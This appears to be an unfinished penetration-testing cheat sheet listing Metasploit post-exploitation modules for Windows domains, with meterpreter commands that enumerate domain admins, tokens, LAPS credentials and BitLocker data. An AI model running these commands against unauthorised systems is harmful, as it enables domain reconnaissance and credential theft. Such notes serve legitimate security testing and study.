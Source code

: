 # Metasploit

## 01 - Modules

### 1.1 - Post

run post/windows/gather/enum_domain

run post/windows/gather/enum_tokens

run post/windows/gather/enum_domain_tokens

run post/windows/gather/enum_ad_managedby_groups

run post/windows/gather/enum_ad_to_wordlist

run post/windows/gather/enum_ad_user_comments

run post/windows/gather/enum_ad_users

run post/windows/gather/credentials/enum_laps

```
msf > use post/windows/gather/enum_domain_group_users

msf post(windows/gather/enum_domain_group_users) > options

Module options (post/windows/gather/enum_domain_group_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   GROUP                     yes       Domain Group to enumerate
   SESSION                   yes       The session to run this module on

msf post(windows/gather/enum_domain_group_users) > set group <domain_group>

msf post(windows/gather/enum_domain_group_users) > set session <session_id>

msf post(windows/gather/enum_domain_group_users) > exploit
```

- One liner

```
meterpreter > run post/windows/gather/enum_domain_group_users group="Domain Admins"

meterpreter > run post/windows/gather/enum_domain_group_users group="Enterprise Admins"
```

TODO: Fill this info

- LDAP query

```
meterpreter > run post/windows/gather/enum_ad_groups
```

- Bitlocker

run post/windows/gather/enum_ad_bitlocker

---
## References

- [Rapid7: Metasploit Framework Enumerate Domain Controller Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/enum_domain.md)

- [Rapid7: Metasploit Framework Enumerate Tokens Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/enum_tokens.md)